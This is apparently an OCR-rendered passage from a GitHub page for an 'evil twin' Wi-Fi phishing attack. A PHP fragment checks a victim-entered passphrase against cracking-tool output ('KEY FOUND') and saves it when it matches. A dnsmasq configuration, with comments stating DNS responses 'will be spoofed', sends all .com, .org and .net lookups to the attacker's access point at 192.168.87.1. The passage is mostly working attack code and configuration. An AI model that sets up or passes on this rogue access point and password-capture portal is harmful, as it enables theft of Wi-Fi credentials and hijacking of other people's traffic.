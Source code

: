 ```
if ($retval == 0) {
	foreach($output as $line) {
		if (strpos($line, "KEY FOUND") !== FALSE) {
			$key_found = TRUE;
			break;
		}
	}
}

if ($key_found) {

  # Save the passphrase and redirect the user to the success page
  @rename($wordlist_path, $success_path);

  header('Location: index.php?success');
} else {
  # Delete temporary file and redirect user back to login page
  @unlink($wordlist_file);

  header('Location: index.php?failure');
}
?>
```

## Networking Setup
```
# wlan0 IP address configuration
sudo ip addr add 192.168.87.1/24 dev wlan0
sudo ip link set wlan0 up

# Installing and configuring dnsmasq for DHCP
sudo apt install dnsmasq
```
### configuration file for DHCP (mco-dnsmasq.conf)
```
# Main options
# http://www.thekelleys.org.uk/dnsmasq/docs/dnsmasq-man.html
domain-needed
bogus-priv
no-resolv
filterwin2k
expand-hosts
domain=localdomain
local=/localdomain/
# Only listen on this address. When specifying an
# interface, it also listens on localhost.
# We don't want to interrupt any local resolution
# since the DNS responses will be spoofed
listen-address=192.168.87.1

# DHCP range
dhcp-range=192.168.87.100,192.168.87.199,12h
dhcp-lease-max=100

# Addition to dnsmasq for DNS spoofing
# This should cover most queries
# We can add 'log-queries' to log DNS queries
address=/com/192.168.87.1
address=/org/192.168.87.1
address=/net/192.168.87.1

# Entries for Windows 7 and 10 captive portal detection
```